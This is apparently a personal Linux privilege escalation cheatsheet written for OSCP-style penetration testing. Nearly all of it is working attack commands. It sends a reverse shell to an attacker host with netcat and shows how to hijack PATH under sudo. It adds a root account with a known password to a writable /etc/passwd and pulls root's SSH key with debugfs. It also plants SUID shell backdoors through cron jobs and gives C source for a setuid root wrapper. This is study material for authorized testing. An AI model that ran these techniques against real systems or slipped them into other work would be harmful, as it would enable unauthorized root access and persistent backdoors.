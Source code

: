 ```yaml
---
title: Linux Privilege Escalation
date: 2020-06-29 16:33:08
tags: [oscp, linux, cheatsheet, privilege escalation]
aliases:
    - /linux-privesc
    - /postexp-linux
keywords:
    - linux cheatsheet
    - linux cheat sheet
    - linux privilege escalation
    - linux privesc
    - linux privilege escalation cheatsheet
    - linux privesc cheatsheet
---
```


# Linux Privilege Escalation Cheatsheet

So you got a shell, what *now*?
This cheatsheet will help you with local enumeration as well as escalate your privilege further

Usage of different enumeration scripts are encouraged, my favourite is [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
Another linux enumeration script I personally use is [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
Abuse existing functionality of programs using [GTFOBins](https://gtfobins.github.io/)

*Note: This is a live document. I'll be adding more content as I learn more*

## Unstable shell
Send yourself another shell from within the unstable shell
``` bash
which nc
nc $ip $port
```

## Make it functional
Necessary for privilege escalation purposes
``` bash
which python[3]
python[3] -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
# In Kali
stty -a # Notice number of rows and columns
stty raw -echo && fg
# On target system
reset
stty rows xx
stty columns yy
export TERM=xterm-256color
```
## General info
``` bash
# username, groups
id
hostname

# Part of too many groups? Find out all the files you've access to
for i in $(groups); do echo "=======$i======"; find / -group $i 2>/dev/null | grep -v "proc" >> allfiles; done

# Interesting internally listening ports?
netstat -anpt

# Look what the user was up to
less .bash_history
less mysql_history

# Check user accounts
cat /etc/passwd | grep "sh$\|python"

sudo -l
```
## Automated enumeration
``` bash
# Automated local enumeration
# Look for any highlighted stuff
# Cron jobs
# Non-standard scripts or programs
# Hardcoded credentials. Check password re-use against existing accounts
./linpeas.sh -q

./linenum.sh
```

## Abusing sudo
Can sudo but absolute path is specified? Use `ltrace` to view libraries being loaded by these programs and check if absolute path is specified or not
``` bash
# Easy win?
sudo -l # Check programs on GTFOBins

# Can sudo, abosulte path not specified?
echo "/bin/sh" > <program_name>
chmod 777 <program_name>
# Export PATH=.:$PATH
sudo <program_name>
```

## Weak file permissions
``` bash
# Writable /etc/passwd?
Remove 'x' beside a username --> no password
# Create a new user
openssl passwd "lol" # Prints out a hash
# Make a new entry at the end of /etc/passwd
notahacker:$passwd_hash:0:0:/root:/bin/bash # Become r00t yourself

# /dev/sda1 readable?
debugfs /dev/sda1 # Get root's SSH private key 
```

## Abusing CRON jobs
``` bash
# Writable CRON program?
# Insert language specific reverse shell

# Writable library?
# Back up library
# Insert language specific reverse shell at the end of the library

# Make root give you a bash SUID program
# Make getroot.sh file with following contents and wait for CRON job to run the program
#!/bin/dash
cp /bin/dash /tmp/backdoor
chown root:root /tmp/backdoor
chmod u+s /tmp/backdoor
# Execute /tmp/backdoor to get a root shell


cp /bin/bash /tmp/backdoor
chmod 6755 /tmp/backdoor
# Execute /tmp/backdoor -p to get a root shell
```
Use a suid program and use as per context
getsuid.c
``` c
// BOTH WORKS
// gcc -o suid getsuid.c
// AS INTENDED USER - 
	// chown root:root suid
	// chmod 6755 suid

// immediately spawns shell upon execution 
int main() {
	setuid(0);
	system("/bin/bash -p");
}

// or better, execvp doesn't drop euid
// able to handle more things without any modifications
// run commands as root
#include <stdio.h>
#include <unistd.h>

int main(int argc, const char * argv[]){
	if (argc > 1) printf("%s",execvp(argv[1],&argv[1]));
	return 0;
}
```
## Abusing wildcards
Check out this fantastic [document](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt) of a talk
* Abusing `chmod` 
* Abusing `chown`
* Abusing `tar`
* Abusing `rsync`

## Abusing NFS < 4

Refer to my [personal notes](https://www.notion.so/NFS-4-689ff63036654c3f8e3bda2deef9f6e5) for exploiting NFS < 4